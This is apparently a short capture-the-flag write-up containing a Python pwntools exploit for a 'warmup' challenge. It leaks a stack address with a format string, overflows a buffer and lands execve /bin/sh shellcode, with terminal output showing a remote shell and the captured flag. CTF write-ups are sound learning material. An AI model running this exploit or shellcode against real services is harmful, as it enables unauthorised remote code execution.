 ```python
#!/usr/bin/python2

from pwn import *
import struct

ADDR_START = 0x400590

# https://www.exploit-db.com/shellcodes/47008
sc = "\x48\x83\xEC\x40" # sub rsp, 64
sc += "\x48\x31\xf6\x56\x48\xbf"
sc += "\x2f\x62\x69\x6e\x2f"
sc += "\x2f\x73\x68\x57\x54"
sc += "\x5f\xb0\x3b\x99\x0f\x05"

r = remote("127.0.0.1", 10001)

r.recvuntil(":)\n")

r.send("%41$016lx" + "A"*(264-9) + struct.pack("<Q", ADDR_START) + "\n")

data = r.recvuntil(":)\n")
addr = int(data[0:16], 16) - 0x1e8
print "Buffer is at %016lx" % addr

r.send("\x90"*(264 - len(sc)) + sc + struct.pack("<Q", addr) + "\n")

r.interactive()
```

```
andrew@fujitsu /tmp % ./exploit.py 
[+] Opening connection to nothing.chal.ctf.westerns.tokyo on port 10001: Done
Buffer is at 00007ffda6c2f3b0
[*] Switching to interactive mode
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H\x83�@H1�VH�/bin//shWT_\xb0;\x99\x0f\x05\xb0�¦
$ id
uid=1000(warmup) gid=1000(warmup) groups=1000(warmup)
$  
```

### Flag

```
TWCTF{AAAATsumori---Shitureishimashita.}
```
